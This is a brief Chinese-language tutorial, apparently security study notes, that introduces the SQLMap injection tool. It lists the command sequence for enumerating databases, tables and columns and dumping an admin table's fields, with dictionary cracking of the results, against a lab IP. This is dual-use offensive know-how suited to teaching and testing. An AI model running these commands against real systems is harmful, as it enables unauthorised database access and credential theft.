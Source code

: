 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 简介
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 详解 
![](/assets/WX20190306-160348@2x.png)
![](/assets/WX20190306-161610@2x.png)
![](/assets/WX20190306-162251@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 流程 (目标注入地址尽量用双引号引起来)
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)


```python
    URL 形如 "http://172.16.12.2/inject.php?id=1"
    sqlmap.py -u "URL" --dbs                --dbs: 列举数据库
    sqlmap.py -u "URL" --current-db         --current-db: 当前数据库
    sqlmap.py -u "URL" -D dbname  --tables              dbname:指定数据库名称 --tables:列出某数据库上的所有表
    sqlmap.py -u "URL" -D dbname -T tablename --columns -D    --columns:列出指定表上的所有列
    sqlmap.py -u "URL" -D sqlinject  -T admin -C 字段 --dump  --dump:导出列里面的字段
    然后回车默认通过字典来破解，选择1利用自带的字典暴力破解
```






 







